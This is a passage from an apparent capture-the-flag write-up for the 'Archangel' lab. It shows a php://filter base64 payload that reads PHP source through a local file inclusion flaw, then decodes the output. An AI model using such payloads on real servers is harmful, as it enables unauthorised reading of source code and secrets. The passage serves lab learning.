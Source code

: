 ```
php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

![test-php-success](/assets/images/thm/archangel/test-php-success.png)

We can decode the above using the following command

```
echo PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg== | base64 -d
```

or we can use this site `https://gchq.github.io/CyberChef/`

![decode](/assets/images/thm/archangel/decode.png)

It just prints **Control is an illusion**. Well let's try to check whether we'll be able to read `test.php`

![test-php-encoded](/assets/images/thm/archangel/test-php-encoded.png)

